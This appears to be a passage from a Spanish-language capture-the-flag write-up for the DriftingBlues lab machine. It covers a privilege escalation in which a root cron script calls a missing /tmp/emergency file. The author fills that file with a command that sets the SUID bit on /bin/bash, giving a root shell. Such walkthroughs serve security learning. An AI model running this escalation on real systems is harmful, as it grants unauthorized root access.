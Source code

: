 

## Escalación de privilegios

---

> Podemos escalar privilegios de 2 formas.
{: .prompt-tip }


### Primera

Listamos los procesos actuales del sistema con `ps -faux` y notamos que uno de ellos es generado por una tarea *CRON* por el usuario root.

```bash
root       745  0.0  0.3  37480  3344 ?        Ss   15:08   0:00 /usr/sbin/cron -f
root     22305  0.0  0.2  60784  3000 ?        S    16:19   0:00  \_ /usr/sbin/CRON -f
root     22306  0.0  0.0   4504   748 ?        Ss   16:19   0:00      \_ /bin/sh -c /bin/sh /var/backups/backup.sh
root     22307  0.0  0.0   4504   696 ?        S    16:19   0:00          \_ /bin/sh /var/backups/backup.sh
root     22310  0.0  0.3  50384  3944 ?        S    16:19   0:00              \_ sudo /tmp/emergency
```

Verificamos los permisos del archivo backup.sh pero no podemos escribir.

```bash
eric@driftingblues:/tmp$ ls -l /var/backups/backup.sh
-r--r--r-x 1 root root 123 Ara 11  2020 /var/backups/backup.sh
```

Código del script

```bash
eric@driftingblues:/tmp$ cat /var/backups/backup.sh
#!/bin/bash

/usr/bin/zip -r -0 /tmp/backup.zip /var/www/
/bin/chmod

#having a backdoor would be nice
sudo /tmp/emergency
```

Validando el directorio `/tmp` no existe el archivo emergency, con lo cual, tenemos una via potencial para elevar nuestro privilegio.

Creamos el archivo emergency, le asignamos un código para hacer la bash *SUID* y le damos permiso `+x` para que se ejecute.

```bash
eric@driftingblues:/tmp$ cat emergency
chmod u+s /bin/bash
eric@driftingblues:/tmp$ chmod +x emergency
```
